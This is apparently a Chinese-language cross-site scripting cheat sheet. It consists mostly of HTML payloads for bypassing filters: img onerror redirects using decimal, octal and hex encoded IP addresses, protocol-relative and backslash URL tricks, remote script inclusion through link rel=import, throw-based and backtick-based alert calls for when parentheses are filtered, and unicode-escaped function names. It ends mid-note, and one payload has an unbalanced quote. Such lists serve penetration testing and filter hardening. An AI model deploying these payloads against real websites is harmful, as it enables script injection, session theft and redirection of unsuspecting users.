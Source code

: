 ```html
<img src="x" onerror=document.location=`http://2130706433/`>
```

八进制

```html
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

hex

```html
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```

html 标签中用`//`可以代替`http://`

```html
<img src="x" onerror=document.location=`//www.baidu.com`>
```

5.使用`\\`

```html
但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
```



解码顺序是先进行html解码，在进行javascript解码，最后再进行url解码



利用link远程包含js文件

**PS：在无CSP的情况下才可以**

```html
<link rel=import href="http://127.0.0.1/1.js">
```



当括号被过滤的时候可以使用throw来绕过

```html
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```

还可以用 `` 反引号

```html
alert`1`
`${alert(1)}`
\u{0000000000000061}lert(1)
```

没了引号

```html
<script>alert(/adkddfasdffaasdfa/)</script>
```

 = ( ) ; : 被过滤，用 HTML 编码
